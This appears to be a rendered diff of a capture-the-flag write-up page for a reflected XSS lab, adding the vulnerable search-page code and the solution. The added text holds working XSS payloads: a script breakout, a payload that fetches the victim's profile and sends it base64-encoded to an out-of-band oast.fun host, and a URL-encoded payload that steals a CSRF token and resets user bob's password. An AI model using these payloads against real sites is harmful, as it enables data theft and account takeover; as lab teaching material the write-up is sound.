

Before and after one commit to Frankishtien/Challenges-writeups-CTFS, a Markdown page: AppSecMaster/XSS/Reflected XSS - 3.md, 2 parts joined by grey strips. Shown: that part at 88% size. GitHub-like rendering; folded sections open; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/AppSecMaster/XSS/Reflected XSS - 3.md
+++ b/AppSecMaster/XSS/Reflected XSS - 3.md
@@ -224,4 +224,66 @@ app.listen(80, () => {
 
 
 
+
 ---
+
+
+
+## here is we can inject xss here
+
+```javascript
+ const responseHTML = `
+        <html>
+        <head><title>Search Results</title></head>
+        <body>
+            <div id="results-header"></div>
+            <script>
+                var searchQuery = "${query}";
+                document.getElementById('results-header').innerHTML = '<h2>Search Results for "' + searchQuery + '"</h2>';
+            </script>
+            ${resultsHTML}
+            <br><a href="/shared">Back to Shared Area</a>
+        </body>
+        </html>
+    `;
+```
+
+
+
+
+
+
+
+
+
+
+---
+
+
+
+```
+'"</h2>';</script><script>alert(5)</script>
+http://3.252.72.221/search?query=%27%22%3C%2Fh2%3E%27%3B%3C%2Fscript%3E%3Cscript%3Ealert%285%29%3C%2Fscript%3E
+```
+
+
+<img width="1147" height="405" alt="image" src="https://github.com/user-attachments/assets/e4e16bd4-e08a-45d8-a549-8b8cf193cd0a" />
+
+
+
+
+## check first if paylaod send to bob
+
+```html
+</h2>';</script><script>
+fetch('http://localhost/profile', {method: 'GET', credentials: 'include'})
+  .then(r => r.text())
+  .then(data => {
+
+    fetch('http://crudrnshcmhythtyywai7uanxa8alegy6.oast.fun/?p=' + btoa(data));
+  });
+</script>
+
+```
+
+
@@ -227,0 +351,25 @@ app.listen(80, () => {
+## change password of bob
+
+
+
+```
+http://localhost/search?query=%3C%2Fh2%3E%27%3B%3C%2Fscript%3E%3Cscript%3E%0Afetch(%27http%3A%2F%2Flocalhost%2Fprofile%27%2C%20%7B%0A%20%20method%3A%20%27GET%27%2C%0A%20%20credentials%3A%20%27include%27%20%0A%7D)%0A.then(r%20%3D%3E%20r.text())%0A.then(html%20%3D%3E%20%7B%0A%20%20%0A%20%20const%20parser%20%3D%20new%20DOMParser()%3B%0A%20%20const%20doc%20%3D%20parser.parseFromString(html%2C%20%27text%2Fhtml%27)%3B%0A%0A%20%20const%20token%20%3D%20doc.querySelector(%27input%5Bname%3D%22_csrf%22%5D%27).value%3B%0A%0A%20%20%0A%20%20const%20params%20%3D%20new%20URLSearchParams()%3B%0A%20%20params.append(%27_csrf%27%2C%20token)%3B%0A%20%20params.append(%27bio%27%2C%20%27Hacked%20by%20XSS%27)%3B%20%0A%20%20params.append(%27password%27%2C%20%27NewPass123%27)%3B%20%0A%0A%20%20%0A%20%20fetch(%27%2Fprofile%27%2C%20%7B%0A%20%20%20%20method%3A%20%27POST%27%2C%0A%20%20%20%20headers%3A%20%7B%20%27Content-Type%27%3A%20%27application%2Fx-www-form-urlencoded%27%20%7D%2C%0A%20%20%20%20body%3A%20params.toString()%2C%0A%20%20%20%20credentials%3A%20%27include%27%0A%20%20%7D)%3B%0A%7D)%3B%0A%3C%2Fscript%3E%0A
+```
+
+
+
+
+```
+bob : NewPass123
+```
+
+
+
+
+
+
+
+
+
+
+
````
Also changed, not shown: other parts of AppSecMaster/XSS/Reflected XSS - 3.md (+68 -0 lines).
